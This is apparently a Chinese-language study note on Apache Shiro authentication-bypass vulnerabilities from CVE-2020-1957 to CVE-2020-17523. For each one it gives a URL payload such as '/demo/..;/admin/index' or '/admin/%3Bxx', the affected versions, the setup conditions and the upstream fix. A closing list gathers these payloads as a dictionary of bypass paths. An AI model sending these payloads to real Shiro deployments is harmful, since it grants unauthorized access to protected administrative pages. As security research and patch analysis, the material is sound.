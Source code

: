 # Shiro权限绕过

## CVE-2020-1957

**payload：/demo/..;/admin/index**

简单的说因为有；导致截取了分号前面，也就是我们这里的 /demo/.. 然后和 /demo/** 匹配上了。

然后成功绕过shiro，在spring层;被忽视，然后成功匹配路径。

### 环境搭建

```xml
<dependency>
    <groupId>org.apache.shiro</groupId>
    <artifactId>shiro-web</artifactId>
    <version>1.5.1</version>
</dependency>
<dependency>
    <groupId>org.apache.shiro</groupId>
    <artifactId>shiro-spring</artifactId>
    <version>1.5.1</version>
</dependency>
```

### 利用条件

- Apache Shiro <= 1.5.1

- Spring 框架中只使用 Shiro 鉴权

  

### 漏洞修复

https://github.com/apache/shiro/commit/3708d7907016bf2fa12691dff6ff0def1249b8ce#diff-98f7bc5c0391389e56531f8b3754081aR139

将原先的 request.getRequestURI() 替换成了 getContextPath() 、getServletPath() 、getPathInfo() 的组合，这样就能获取我们想要的了，从而避免因为获取差异性而导致绕过，这样就与返回给 springboot 的路径保持一致了。

修复了因为;导致的截断问题。

## CVE-2020-11989

**payload：/admin/%252fxxx**

漏洞产生的原因是因为 Spring 与 Shiro 之间对 url 的处理不同从而导致权限绕过.

简单的说就是shiro层进行了2次url解码，spring层使用了一次。

### 环境搭建

```xml
<dependency>
    <groupId>org.apache.shiro</groupId>
    <artifactId>shiro-web</artifactId>
    <version>1.5.2</version>
</dependency>
<dependency>
    <groupId>org.apache.shiro</groupId>
    <artifactId>shiro-spring</artifactId>
    <version>1.5.2</version>
</dependency>
```

### 利用条件

- Apache Shiro <= 1.5.2
- Spring 框架中只使用 Shiro 鉴权

- 需要后端特定的格式才可进行触发

- 即：Shiro权限配置必须为 /xxxx/* ，同时后端逻辑必须是 /xxx/{variable} 且 variable 的类型必须是 String

### 漏洞修复

在 Shiro 1.5.3 版本中对getPathWithinApplication进行了修改，取消了url 解码的函数.



## CVE-2020-13933

**payload：/admin/%3Bxx**

简单的说就是url解码了之后如果存在；就截断前面的路径并且会将截断的uri最后的 / 进行去除,然后就匹配不到/admin/*,因为是/admin

所以我们只要利用 **/admin/%3Bxx**这样的结构就可以绕过 Shiro 的权限校验。

### 环境搭建

同CVE-2020-11989

pom.xml 中版本修改为1.5.3 

### 利用条件

- Apache Shiro < 1.6.0
- Spring 框架中只使用 Shiro 鉴权

- 需要后端特定的格式才可进行触发

- 即：Shiro权限配置必须为 /xxxx/* ，同时后端逻辑必须是 /xxx/{variable} 且 variable 的类型必须是 String

### 漏洞修复

https://github.com/apache/shiro/commit/dc194fc977ab6cfbf3c1ecb085e2bac5db14af6d

增加了 InvalidRequestFilter 类来对一些特殊情况进行处理，遇到特殊字符直接400，同时增加了 /** 的规则，来防止一些匹配不到的情况。

## CVE-2020-17523

**payload：/admin/%20**

简单的说就是我们传递/admin/%20 url解编之后在进行匹配的时候去除了空格，/admin/ 与/admin/*不匹配造成绕过。

### 漏洞环境

同 CVE-2020-11989 环境

pom.xml 中版本修改为 1.7.0 或及以下即可 

### 利用条件

- Apache Shiro < 1.7.1
- Spring 框架中只使用 Shiro 鉴权

- 需要后端特定的格式才可进行触发

- 即：Shiro权限配置必须为 /xxxx/* ，同时后端逻辑必须是 /xxx/{variable} 且 variable 的类型必须是 String

### 漏洞修复

增加了选项，tokenizeToStringArray 函数中默认不会进行 trim,默认情况下 token = token.trim() 并不会被执行


## CVE-2021-41303

![image](https://user-images.githubusercontent.com/63966847/133890465-dfbd4a6b-524d-4f5a-96d6-2b2dcb10e27f.png)

## 字典

```
/index/..;/admin/index
/login/..;/admin/index
/index/..;/admin/
/login/..;/admin/
/login/..;/json

/admin/%3b/xxx
/admin/%252fxxx
/admin/%3Bxx
/admin/%20
```



>参考：
>
>https://www.yuque.com/tianxiadamutou/zcfd4v/emcdeq
